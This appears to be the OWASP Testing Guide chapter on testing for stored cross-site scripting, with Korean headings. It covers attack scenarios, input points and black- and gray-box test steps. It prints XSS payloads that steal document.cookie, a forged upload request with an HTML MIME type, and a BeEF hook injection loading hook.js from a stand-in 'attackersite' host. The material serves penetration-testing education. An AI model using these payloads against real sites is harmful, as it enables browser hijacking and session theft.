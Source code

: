 ============================================================================================
OTG-INPVAL-002
============================================================================================

|

저장형 크로스 사이트 스크립팅 침투 테스트

|

개요
============================================================================================ 

저장형 크로스 사이트 스크립팅은 XSS 중 가장 위협적인 형태입니다.

Web applications that allow users to store data are potentially exposed to this type of attack. This chapter illustrates examples of stored cross site scripting injection and related exploitation scenarios. 
Stored XSS occurs when a web application gathers input from a user which might be malicious, and then stores that input in a data store for later use. The input that is stored is not correctly filtered. As a consequence, the malicious data will appear to be part of the web site and run within the user's browser under the privileges of the web application. Since this vulnerability typically involves at least two requests to the application, this may also called second-order XSS. 
This vulnerability can be used to conduct a number of browser-based attacks including: 

- Hijacking another user's browser 
- Capturing sensitive information viewed by application users 
- Pseudo defacement of the application 
- Port scanning of internal hosts ("internal" in relation to the users of the web application) 
- Directed delivery of browser-based exploits 
- Other malicious activities 


Stored XSS does not need a malicious link to be exploited. A successful exploitation occurs when a user visits a page with a stored XSS. The following phases relate to a typical stored XSS attack scenario: 

- Attacker stores malicious code into the vulnerable page 
- User authenticates in the application 
- User visits vulnerable page 
- Malicious code is executed by the user's browser 

This type of attack can also be exploited with browser exploitation frameworks such as BeEF, XSS Proxy and Backframe. These frameworks allow for complex JavaScript exploit development. 

Stored XSS is particularly dangerous in application areas where users with high privileges have access. When the administrator visits the vulnerable page, the attack is automatically executed by their browser. This might expose sensitive information such as session authorization tokens. 

|

테스트 방법
============================================================================================

|

Black Box testing
-----------------------------------------------------------------------------------------

The process for identifying stored XSS vulnerabilities is similar to the process described during the testing for reflected XSS. 

**Input Forms**

The first step is to identify all points where user input is stored into the back-end and then displayed by the application. Typical examples of stored user input can be found in: 

- User/Profiles page: the application allows the user to edit/ change profile details such as first name, last name, nickname, avatar, picture, address, etc. 
- Shopping cart: the application allows the user to store items into the shopping cart which can then be reviewed later 
- File Manager: application that allows upload of files 
- Application settings/preferences: application that allows the user to set preferences 
- Forum/Message board: application that permits exchange of posts among users 
- Blog: if the blog application permits to users submitting comments 
- Log: if the application stores some users input into logs. 


Analyze HTML code 

Input stored by the application is normally used in HTML tags, but it can also be found as part of JavaScript content. At this stage, it is fundamental to understand if input is stored and how it is positioned in the context of the page. Differently from reflected XSS, the pen-tester should also investigate any out-of-band channels through which the application receives and stores users input. 

Note: All areas of the application accessible by administrators should be tested to identify the presence of any data submitted by users. 

Example: Email stored data in index2.php 



The HTML code of index2.php where the email value is located: 

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" /> 


In this case, the tester needs to find a way to inject code outside the <input> tag as below: 

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- /> 


Testing for Stored XSS 

This involves testing the input validation and filtering controls of the application. Basic injection examples in this case: 

.. code-block:: html

    aaa@aa.com"><script>alert(document.cookie)</script> 

.. code-block:: html

    aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E 

Ensure the input is submitted through the application. This normally involves disabling JavaScript if client-side security controls are implemented or modifying the HTTP request with a web proxy such as WebScarab. It is also important to test the same injection with both HTTP GET and POST requests. The above injection results in a popup window containing the cookie values. 


Result Expected: 

The HTML code following the injection: 

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com">
    <script>alert(document.cookie)</script> 

The input is stored and the XSS payload is executed by the browser when reloading the page. If the input is escaped by the application, testers should test the application for XSS filters. For instance, if the string "SCRIPT" is replaced by a space or by a NULL character then this could be a potential sign of XSS filtering in action. Many techniques exist in order to evade input filters (see testing for reflected XSS chapter). It is strongly recommended that testers refer to XSS Filter Evasion , RSnake and Mario XSS Cheat pages, which provide an extensive list of XSS attacks and filtering bypasses. Refer to the whitepapers and tools section for more detailed information. 


Leverage Stored XSS with BeEF 


Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as BeEF, XSS Proxy and Backframe

- A typical BeEF exploitation scenario involves: 
- Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF) 
- Waiting for the application user to view the vulnerable page where the stored input is displayed 
- Control the application user's browser via the BeEF console 


The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application. 
Example: BeEF Injection in index2.php: 
aaa@aa.com"><script src=http://attackersite/hook.js></ 
script> 
When the user loads the page index2.php, the script hook.js is executed by the browser. It is then possible to access cookies, user screen-shot, user clipboard, and launch complex XSS attacks. 

Result Expected 


This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges. 

File Upload 

If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types. 
Consider the following HTTP POST request for file upload: 

.. code-block:: html

    POST /fileupload.aspx HTTP/1.1 
    [¡¦] 

    Content-Disposition: form-data; name="uploadfile1"; 
    filename="C:\Documents and Settings\test\Desktop\test.txt" 
    Content-Type: text/plain 

    test 

This design flaw can be exploited in browser MIME mishandling attacks. For instance, innocuous-looking files like JPG and GIF can contain an XSS payload that is executed when they are loaded by the browser. This is possible when the MIME type for an image such as image/gif can instead be set to text/html. In this case the file will be treated by the client browser as HTML. 


HTTP POST Request forged: 


.. code-block:: html

    Content-Disposition: form-data; name="uploadfile1"; 
    filename="C:\Documents and Settings\test\Desktop\test.gif" 
    Content-Type: text/html 
    
    <script>alert(document.cookie)</script> 

Also consider that Internet Explorer does not handle MIME types in the same way as Mozilla Firefox or other browsers do. For instance, Internet Explorer handles TXT files with HTML content as HTML content. For further information about MIME handling, refer to the whitepapers section at the bottom of this chapter. 

|

Gray Box testing 
-----------------------------------------------------------------------------------------

Gray Box testing is similar to Black box testing. In gray box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and data storage might be known by the pen-tester. 
Depending on the information available, it is normally recommended that testers check how user input is processed by the application and then stored into the back-end system. The following steps are recommended: 

- Use front-end application and enter input with special/invalid characters 
- Analyze application response(s) 
- Identify presence of input validation controls 
- Access back-end system and check if input is stored and how it is stored 
- Analyze source code and understand how stored input is rendered by the application 

If source code is available (White Box), all variables used in input forms should be analyzed. In particular, programming languages such as PHP, ASP, and JSP make use of predefined variables/functions to store input from HTTP GET and POST requests. 
The following table summarizes some special variables and functions to look at when analyzing source code: 

|

Tools 
============================================================================================

- PHP Charset Encoder(PCE): http://yehg.net/encoding/
- HackVertor: http://www.businessinfo.co.uk/labs/hackvertor/
- WebScarab 
- Burp Proxy
- OWASP Zed Attack Proxy (ZAP)
- XSS Assistant: http://www.greasespot.net/ 
- XSS-Proxy: http://xss-proxy.sourceforge.net/ 
- BeEF -http://www.beefproject.com 

|

References
============================================================================================

OWASP Resources 
--------------------------------------------------------------------------------------------

- XSS Filter Evasion Cheat Sheet 


Books 
--------------------------------------------------------------------------------------------

- Joel Scambray, Mike Shema, Caleb Sima -"Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0 
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley,ISBN 978-0-470-17077-9 
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. 
Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749154-3 


Whitepapers 
--------------------------------------------------------------------------------------------

- RSnake: "XSS (Cross Site Scripting) Cheat Sheet": http://ha.ckers.org/xss.html 
- CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests": http://www.cert.org/advisories/CA-2000-02.html 
- Amit Klein: "Cross-site Scripting Explained": http://courses.csail.mit.edu/6.857/2009/handouts/cssexplained.pdf 
- Gunter Ollmann: "HTML Code Injection and Cross-site Scripting": http://www.technicalinfo.net/papers/CSS.html 
- CGISecurity.com: "The Cross Site Scripting FAQ": http://www.cgisecurity.com/xss-faq.html 
- Blake Frantz: "Flirting with MIME Types: A Browser's Perspective": http://www.leviathansecurity.com/pdf/Flirting%20with%20MIME%20Types.pdf 

|